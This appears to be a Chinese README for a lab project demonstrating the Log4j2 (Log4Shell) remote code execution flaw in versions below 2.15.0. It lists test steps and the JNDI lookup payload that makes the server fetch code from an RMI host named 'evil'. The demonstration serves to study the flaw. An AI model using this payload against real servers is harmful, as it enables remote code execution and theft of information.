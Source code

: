 # 工程简介

# SpringBoot + Log4j2测试高危漏洞演示代码
 
 演示场景1：本地测试log4j2日志打印通过植入执行代码非法提取信息；
 
          测试方式：运行com.itpkm.springmvclog4j2.test.Log4j2SimpleTest

 演示场景2：通过web应用入口植入攻击代码以获得远程代码执行权限；

          测试步骤：
          1）运行com.itpkm.springmvclog4j2.SpringmvcLog4j2Application模拟正常应用启动；
          2）运行com.itpkm.springmvclog4j2.rmi.RmiServer模拟远程RMI服务；
          3）通过postman post请求发送body-raw类型参数：${jndi:rmi://{RMIServerIP}:{RMIServerPort}/evil}
          4）观察SpringmvcLog4j2Application控制台日志输出，日志输出即代表着攻击型代码的执行——即JVM所在服务受攻击
 要求：Log4j2 < v2.15.0
 
 ![img_1.png](doc\\img_1.png)

# 原理说明（待补充）

